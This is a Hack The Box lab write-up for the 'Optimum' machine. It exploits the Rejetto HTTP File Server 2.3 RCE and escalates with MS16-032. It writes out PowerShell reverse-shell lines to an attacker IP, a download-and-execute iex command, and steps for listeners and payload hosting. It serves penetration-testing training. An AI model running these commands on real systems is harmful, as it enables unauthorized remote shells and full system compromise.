

# Optimum

### Machine Info:


#### Nmap:


##### HTTP server (Port 80):
HTTP server is running with `rejetto HttpFileServer httpd 2.3`. I tried to login with default/common credentials but failed.


Let's check if `httpfileserver` has vulnerability or not.


As we can see `Rejetto HTTP File Server 2.3` has RCE vulnerability.


##### Vulnerability:
The host `Optimum` is running web application `Rejetto HTTP File Server version 2.3` which has `RCE(Remote Code Execution)` vulnerability. By using this, the attacker can obtain a shell.


##### Exploit:
```
Exploit Code: https://www.exploit-db.com/exploits/39161
```

Modification of Code:
```
# Just change the local ip address and port number
ip_addr = "10.10.14.37" #local IP address                                                                                                                                                                                                             
local_port = "443" # Local Port number  
```

Execute Exploit:
```
~/htb/optimum
❯ python 39161.py -h           
[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
        Don't forgot to change the Local IP address and Port number on the script

~/htb/optimum
❯ python 39161.py 10.10.10.8 80
```

`nc` listener on attacking machine:


#### Privilege Escalation:

###### Vulnerability:
```
MS16-032: Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)
Exploit Code: https://www.exploit-db.com/exploits/39719
```


Running python `SimpleHTTPServer` to transfer exploits:
```
~/htb/optimum
❯ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```


From the low privilege shell:
Run Nishang's `Invoke-PowerShellTcp.ps1` to get PowerShell reverse shell.
[]()https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1`

Modification of PowershellTcp:
```
# Add below line to the end of the script to get reverse shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4444
```  

Powershell reverse shell:</br>

```
# The powershell should be x64 otherwise
# the x32 will be loaded and the exploit will not work.
# Path for powershellx64:
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe
```

`nc` listener on attacking side with port 4444:


Modification of exploit (ms16-032.ps1 and another TCP Reversehell):
```
# MS16-032.ps1
# Add below line to the end of the script to get privileged reverse shell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.37:8080/shell.ps1')"
```

```
# shell.ps1
# Copy Nishang's Invoke-PowerShellTcp.ps1 and change name to shell.ps1
# Add below line to the end of the script to get privileged reverse shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4445
```

###### Exploit:

Download and execute `Invoke-MS16032.ps1`:


`nc` listener on attacking side with port 4445:


And you can get `root.txt` :)
